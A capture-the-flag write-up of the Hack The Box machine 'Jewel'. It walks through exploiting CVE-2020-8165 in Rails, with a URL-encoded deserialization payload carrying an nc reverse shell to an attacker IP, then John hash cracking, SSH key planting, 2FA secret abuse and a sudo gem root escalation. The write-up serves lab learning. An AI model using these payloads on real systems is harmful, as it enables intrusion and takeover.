






# Hack the Box - Jewel


<div style="text-align:center">Write-up of Jewel - Difficulty : Medium </div>

<!--more-->

>Experience is a jewel, and it need be so, for it is often purchased at an infinite rate.  
>  
> -William Shakespeare  

## 1. Overview

Jewel is a Linux box running gitweb as well as a blog site.

This version of gitweb is running a vulnerable version of Ruby on Rails. 
 
This CVE allowed for remote code execution (RCE) on the victim box and attain a reverse shell as user Bill.  

A sqldump accessible by the user in the backup folder allowed us to obtain the password hash for Bill. 

Cracking the hash and utilizing Bill's 2FA secret allowed us to break into the root account utilizing the gem command.


## 2. Recon

### 2.1 Nmap
As always we start off running a port scan with nmap and we see that ports 22, 8000, and 8080 are open.

``` bash 
 nmap -sC -sV -T4 10.10.10.211 
```



  
We can see that SSH is open, Apache is running on 8000, and nginx is running on 8080.

### 2.2 Websites
#### 2.2.1 Gitweb
Next we'll go check out what sites those webservers are hosting.

If we open our browser and go to 10.10.10.211:8000 we get redirected to **/gitweb/**.
It looks like there's a project called "Bl0G!"
We can view the contents of the project by following the hyperlinks and we come to the gem file which tells us the Rails version is 5.2.2.1.


After some google research we find that this version of Ruby has a vulnerability publicly disclosed as [CVE-2020-8165](https://nvd.nist.gov/vuln/detail/CVE-2020-8165).

Thanks to the PoC on github by [masahiro331](https://github.com/masahiro331/CVE-2020-8165) we can see what exactly needs to be done to exploit this version of Ruby and get our code running on the box.

```
$ curl 'localhost:3000/users?new=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%15%60touch+%2Ftmp%2Frce%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T'
```

Great! So we have a possible exploit, but where are we supposed to put it? 
For that we go check out the other site this box is hosting.

#### 2.2.2 Bl0G!

So we head on over to 10.10.10:211:8080 in our browser and it brings us to the "Bl0G" page.


After some poking around we find we can make a user account and login.
We're able to read all the posts but don't seem to be able to interact with them in any other way.

## 3. Exploitation

Since we already know what exploit we're going to try we can start looking for a place to send it.

The only text field that we found that was able to be updated was the username field under our profile after we are logged in to the site.


After opening up Burp Suite and configuring our browser to use it as our proxy we're able to intercept the web traffic between us and the blog.


When we go to update our username we can edit that request before sending it to the server and insert that PoC script from before replacing code execution section with our reverse shell.
```
%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.14.64+1234+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
```




Before sending this off we need to start our netcat listener with **nc -lvnp 1234**.
Once that's listening we can send off that request and reload the webpage.

After the reload we get a connection on our listener as user Bill.




This connection is just a simple shell so we can upgrade it using the python pty module.

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

First thing to do is a quick list of all files in Bill's home directory and take note of what we see.
If this write-up was helpful consider leaving some respect on my HTB profile.


## 4. Privilege Escalation

We already have a user account but the ultimate goal is to own root.


After some enumeration in the common directories we find a sqldump in **/var/backups**.
When we read that file it looks like there's hashes for two different users. So let's grab those:


If we run **getent passwd** as Bill we can see that Jennifer doesn't appear to be a user on the box.
With that in mind we can try cracking Bill's hash first and save the other one for later, it might still be useful if it's crackable.

Once we copy the hash to our host machine we can run John the Ripper against it using the rockyou password list.

```bash
sudo john ./bill.hash --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```


With Bill's password we attempted to connect via SSH but it seems to still be asking for a SSH key. I looked at Bill's home directory and there was no **.ssh** folder so I ran a quick **ssh-keygen** and echoed my **id_rsa.pub** into the newly created **authorized\_keys** file.

Now that we have Bill's password we can run a **sudo -l** to see if he can run any commands as root.
After putting in Bill's password the box asks for a 2FA code.  For that we go back to Bill's home directory where we saw that **.google_authenticator** file when we first gained access.

If we manually input the 2FA secret into the authenticator add-on for Chrome it will give us an authentication code to use.   
Unfortunately for us there still seems to be an error when using it.



Clearly the 2FA code didn't work. Since the codes are time based the first thing to look at what the time is set to on Jewel with **timedatectl** as well as our host machine.



Well we're clearly not matching so we'll have to set our time-zone and time to match Jewel for our 2FA codes to work.
```bash
timedatectl set-timezone Europe/London

if the time is off you may need

timedatectl set-time XX:XX:XX 

to synchronize the times
```
After we sync our times the 2FA codes work and we can finally run our **sudo -l** commmand.


Looks like Bill can run the **gem** command with sudo.

Let's head over to [GTFObins](https://gtfobins.github.io/) to see if there's a way to get root with this command.

Looks like if we run one simple command we can hop over to root. So let's do it.

```bash
sudo gem open -e "/bin/sh -c /bin/sh" rdoc
```


And just like that we have root.

As usual we can insert our **id_rsa.pub** key into root's **/root/.ssh/authorized\_keys** folder to we can get access without having to utilize Bill's user account.

## Conclusion

1. Make sure your project documents are locked down and your systems are patched.
2. You should never leave password hashes unprotected in an easily accessible location.
3. If you're going to utilize 2FA don't keep your 2FA secret in a folder on your computer.

<br>
<br>
<br>

<div style="text-align:center"><a href="https://www.hackthebox.eu/home/users/profile/190484"></a></div>
<div style="text-align:center">If this write-up was helpful consider leaving some respect on my HTB profile.</div>

